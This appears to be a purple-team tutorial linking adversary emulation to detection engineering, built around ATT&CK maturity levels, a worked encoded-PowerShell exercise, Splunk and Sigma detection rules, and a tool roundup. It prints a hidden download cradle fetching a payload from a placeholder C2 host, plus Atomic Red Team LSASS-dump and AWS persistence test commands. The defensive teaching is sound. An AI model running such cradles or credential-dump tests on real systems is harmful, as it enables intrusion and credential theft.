





# Purple Teaming: Bridging Adversary Emulation with Detection Engineering

> **Category:** Purple Team & Threat Operations | **Series:** Security Team Operations | **Level:** Intermediate to Advanced

---

## Executive Overview: Breaking the Silo

For decades, enterprise cybersecurity operated on a fragmented, adversarial model:

* **The Red Team** operated in the shadows, mimicking sophisticated threat actors, breaching perimeters, and dropping a 150-page PDF report weeks after exploitation.
* **The Blue Team** defended blind, drowning in false-positive alerts and struggling to reconstruct how the attacker evaded their controls.

This disconnection created an **operational blind spot**: attacks succeeded not because organizations lacked security tools, but because their detection controls were never systematically validated against realistic tradecraft.



```text
+-----------------------------------------------------------------------------------------------+
|                                  The Cyber Defense Evolution                                  |
+--------------------------+------------------------------------+-------------------------------+
|     RED TEAM (Offense)   |        PURPLE TEAM (Fusion)        |      BLUE TEAM (Defense)      |
|  - Adversary Emulation   |  - Collaborative Testing           |  - Telemetry Engineering      |
|  - Exploit Weaponization |  - Real-Time Gap Analysis          |  - EDR / SIEM Alert Tuning    |
|  - Evasion & Obfuscation |  - Detection Posture Verification  |  - SOAR Playbook Automation   |
+--------------------------+------------------------------------+-------------------------------+
```

**Purple Teaming is not a job title or a standalone tool—it is a continuous, collaborative operational methodology.** In a Purple Team exercise, offensive operators execute real-world Tactics, Techniques, and Procedures (TTPs) openly while defensive engineers monitor telemetry streams in real time to verify, tune, and harden detection and response controls.

---

# 1. The Core Purple Team Mission

The objective of Purple Teaming is simple: **Turn every offensive action into a permanent defensive capability.**



### Traditional Siloed Operations vs. Purple Teaming

| Dimension | Traditional Red vs. Blue | Modern Purple Team Model |
| :--- | :--- | :--- |
| **Mindset** | "We vs. Them" adversarial competition | "One Team" collaborative engineering |
| **Transparency** | Red hiding actions to evade Blue | Open terminal sharing and real-time execution logs |
| **Feedback Loop** | Weeks/months later via formal audit report | Immediate (measured in minutes during the exercise) |
| **Primary Metric**| "Did we breach domain admin?" | "What percentage of ATT&CK TTPs generate high-fidelity alerts?" |
| **Outcome** | Temporary panic and tactical patching | Permanent engineering improvements across SIEM, EDR, and SOAR |

---

# 2. The 6-Step Purple Team Feedback Loop

A structured Purple Team exercise follows a cyclical lifecycle that ensures measurable results:



---

# 3. MITRE ATT&CK: The Universal Operational Taxonomy

Purple Teams rely on the **MITRE ATT&CK framework** as a shared operational taxonomy to evaluate security posture across the entire intrusion lifecycle.


### Categorizing Detection Maturity Levels

For every technique tested, the Purple Team assigns a definitive maturity status:

```text
Level 0: BLIND SPOT        --> No logs collected, zero endpoint visibility.
Level 1: TELEMETRY LOGGED  --> Raw events exist in Splunk, but no alert triggered.
Level 2: TOOL DETECTION    --> EDR flags an internal behavioral IOA, but no SOC ticket.
Level 3: ACTIONABLE ALERT  --> SIEM correlates events and alerts SOC analyst.
Level 4: AUTOMATED BLOCK   --> SOAR playbook or EDR engine blocks action instantly.
```

---

# 4. Hands-On Exercise: T1059.001 (Obfuscated PowerShell Execution)

Let us walk through a live, atomic Purple Team exercise demonstrating how offensive tradecraft is translated into detection engineering.



### Stage 1: The Offensive Emulation (Red Execution)

The operator executes an encoded PowerShell cradle commonly used by ransomware loaders:

```powershell
# Simulating adversary download cradle with Base64 encoding and bypass parameters
$cmd = 'IEX (New-Object Net.WebClient).DownloadString("https://c2.example.com/payload.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)

# Execution
powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -EncodedCommand $encoded
```

### Stage 2: Telemetry Audit (What Did the Sensors Capture?)

During execution, the defenders examine whether the sensors collected the critical artifacts:

1. **Windows Event ID 4688 (Process Creation):**
   * *Captured:* `powershell.exe` with command line arguments containing `-EncodedCommand`.
2. **Windows Event ID 4104 (PowerShell Script Block Logging):**
   * *Captured:* Even though the command was Base64 encoded, the .NET execution engine de-obfuscates the buffer before execution. Event 4104 captured the plain-text string: `DownloadString("https://c2.example.com/payload.ps1")`.
3. **CrowdStrike Falcon Sensor:**
   * *Captured:* Outbound TCP socket attempt to `c2.example.com:443`.

*Finding:* **Telemetry was recorded, but no alert fired.** Without proactive correlation, this attack would go completely unnoticed.

### Stage 3: Defensive Engineering (Blue Tuning)

The detection engineer immediately crafts a focused Splunk SPL query to detect future attempts:

```spl
index=wineventlog (EventCode=4104 OR EventCode=4688)
| eval CommandLine=coalesce(CommandLine, ScriptBlockText)
| eval IsEncoded=if(match(CommandLine, "(?i)(-enc|-encodedcommand|-e)\s+[A-Za-z0-9+/=]{10,}"), 1, 0)
| eval HasDownloadCradle=if(match(CommandLine, "(?i)(DownloadString|DownloadFile|Net\.WebClient|Invoke-WebRequest|curl|wget)"), 1, 0)
| eval HasEvasionFlags=if(match(CommandLine, "(?i)(-nop|-noprofile|-w\s+hidden|-windowstyle\s+hidden|-noni|-noninteractive)"), 1, 0)
| where (IsEncoded=1 AND HasEvasionFlags=1) OR (HasDownloadCradle=1 AND HasEvasionFlags=1)
| stats 
    count, 
    values(CommandLine) as ExecutedPayloads, 
    values(dest) as AffectedHosts, 
    earliest(_time) as FirstSeen, 
    latest(_time) as LastSeen 
    by user
| eval Severity="High"
```

### Stage 4: Re-Test & Verification

The Red operator re-executes the exact payload with variation (different flags, case alterations like `-eNcOdEdCoMmAnD`). The new Splunk correlation rule detects both variations instantly.

**Result:** The technique moved from **Level 1 (Telemetry Logged)** to **Level 3 (Actionable SOC Alert)** in under 45 minutes.

---

# 5. The Purple Team Tooling Arsenal

Effective Purple Teaming requires specialized platforms designed for repeatable, controlled adversary emulation, telemetry hunting, and collaborative gap tracking:



---

## 5.1 Category 1: Adversary Emulation & Simulation Platforms

#### 1. Atomic Red Team (Red Canary)
* **Purpose:** Open-source library of simple, atomic tests mapped directly to the MITRE ATT&CK matrix.
* **Key Execution Tool:** `Invoke-AtomicTest` (PowerShell module).
```powershell
# Install Atomic Red Team execution framework
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics

# Check prerequisites for Technique T1003.001 (LSASS Dump)
Invoke-AtomicTest T1003.001 -CheckPrereqs

# Execute the atomic simulation test
Invoke-AtomicTest T1003.001 -TestNumbers 1

# Clean up all residual test artifacts
Invoke-AtomicTest T1003.001 -Cleanup
```

#### 2. MITRE Caldera
* **Purpose:** Scalable, automated adversary emulation system that allows operators to run multi-agent, chained attack campaigns across Windows, Linux, and macOS.
* **Key Strengths:** Visual campaign maps, automated decision engines, and deep integration with ATT&CK.

#### 3. Stratus Red Team (DataDog)
* **Purpose:** Lightweight, atomic adversary emulation specifically engineered for cloud environments (AWS, Azure, GCP, Kubernetes).
```bash
# List available cloud attack techniques
stratus list

# Detonate AWS persistence technique (CreateAccessKey)
stratus detonate aws.persistence.iam-create-access-key
```

---

## 5.2 Category 2: Rapid Telemetry Inspection & EVTX Hunting

When executing tests in target labs, engineers require fast CLI utilities to verify whether artifacts were written to local disk logs:

#### 1. Chainsaw
* **Purpose:** Blazing fast Rust-based tool to search and parse Windows Event Logs (`.evtx`) against Sigma detection rules.
```bash
# Rapidly hunt for Sigma rule matches inside Windows Security and Sysmon logs
chainsaw hunt /path/to/winevt/Logs/ -s /path/to/sigma/rules/ --mapping /path/to/mapping.yml
```

#### 2. Hayabusa
* **Purpose:** Fast Windows event log timeline analyzer that outputs MITRE ATT&CK mapped summaries in seconds.

---

## 5.3 Category 3: Universal Detection Engineering (Sigma & Uncoder)

#### 1. Sigma Rules
* **Purpose:** Generic YAML detection format. Allows Purple Teams to write detection logic once and export to any enterprise SIEM.
```yaml
title: Suspicious PowerShell Download Cradle
id: 3c18b76a-5431-4c28-98e3-a4e9b97b6920
status: production
description: Detects encoded PowerShell downloading external payloads via WebClient
logsource:
    category: process_creation
    product: windows
detection:
    selection_img:
        Image|endswith: '\powershell.exe'
    selection_flags:
        CommandLine|contains:
            - '-enc'
            - '-encodedcommand'
    selection_cradle:
        CommandLine|contains:
            - 'DownloadString'
            - 'WebClient'
    condition: selection_img and selection_flags and selection_cradle
falsepositives:
    - Administrative update scripts (rare)
level: high
tags:
    - attack.execution
    - attack.t1059.001
```

#### 2. Uncoder.IO / pySigma
* **Purpose:** Translates Sigma YAML rules directly into native queries for Splunk (SPL), Microsoft Sentinel (KQL), Elastic (EQL/KQL), and QRadar.

---

## 5.4 Category 4: Collaboration, Metrics & Posture Tracking

#### 1. VECTR (Security Risk Advisors)
* **Purpose:** Premier web-based Purple Team campaign and metrics tracking software.
* **Key Use Case:** Visualizes detection posture gains, historical test results, and ATT&CK matrix coverage heatmaps over successive quarters.

#### 2. MITRE ATT&CK Navigator
* **Purpose:** Interactive matrix visualization tool to color-code enterprise detection coverage, identifying red blind spots and green validated detections.

---

# 6. Master Purple Team Tool Reference Matrix

| Tool Name | Operational Category | Primary Technology | Primary Function |
| :--- | :--- | :--- | :--- |
| **Atomic Red Team** | Emulation / Execution | PowerShell / Bash | Pre-scripted single-command ATT&CK technique tests |
| **MITRE Caldera** | Automated Emulation | Go / Python / Web | Multi-host, autonomous adversary campaign orchestration |
| **Stratus Red Team** | Cloud Emulation | Go / AWS / Azure / GCP | Safe, atomic detonation of cloud-specific threat techniques |
| **Chainsaw** | Telemetry Hunting | Rust / Windows EVTX | Rapid hunting across offline Windows event logs with Sigma rules |
| **Hayabusa** | Event Analysis | Rust / Windows EVTX | Timeline generation and threat hunting against Windows logs |
| **Sigma** | Detection Format | YAML / Generic | Standardized open-source detection signature language |
| **VECTR** | Tracking & Scoring | Web / Docker | Campaign management, metrics scoring, and test case documentation |
| **ATT&CK Navigator**| Visualization | Web / JSON | Color-coded enterprise detection coverage matrix heatmaps |

---

# 7. Building an Enterprise Detection Scorecard

Purple Teaming tracks real quantitative progress. Below is a sample assessment scorecard used to benchmark defensive resilience:

```text
+----------------------------------------------------------------------------------------------------+
|                                Enterprise Purple Team Scorecard                                    |
+-------------+-----------------------+-----------------+-------------------+------------------------+
| Technique   | Name                  | Initial State   | Final State       | Implemented Rule       |
+-------------+-----------------------+-----------------+-------------------+------------------------+
| T1059.001   | PowerShell Execution  | Logged Only     | SOC Alert         | SPL_Win_PS_Encoded     |
| T1003.001   | LSASS Memory Dumping  | Blind Spot      | Automated Block   | CrowdStrike IOA Custom |
| T1053.005   | Scheduled Tasks (At)  | Tool Detection  | SOC Alert         | Sysmon_E106_Schtasks   |
| T1562.001   | Disable Defender / AV | Blind Spot      | Automated Block   | Splunk_Win_Tamper_Prot |
| T1071.001   | Web C2 Traffic        | Logged Only     | SOAR Isolation    | XSOAR_Playbook_C2Block |
+-------------+-----------------------+-----------------+-------------------+------------------------+
```

---

# Summary & Core Philosophy

1. **Defense is an active discipline:** Having security software installed is not the same as having tested protections. If you haven't validated a detection against real tradecraft, assume it does not work.
2. **Emulate, measure, and automate:** Don't just find vulnerabilities—engineer detection logic, deploy playbooks, and automate containment.
3. **Collaboration outperforms isolation:** When Red and Blue work together with mutual respect and transparent knowledge sharing, security postures elevate exponentially.
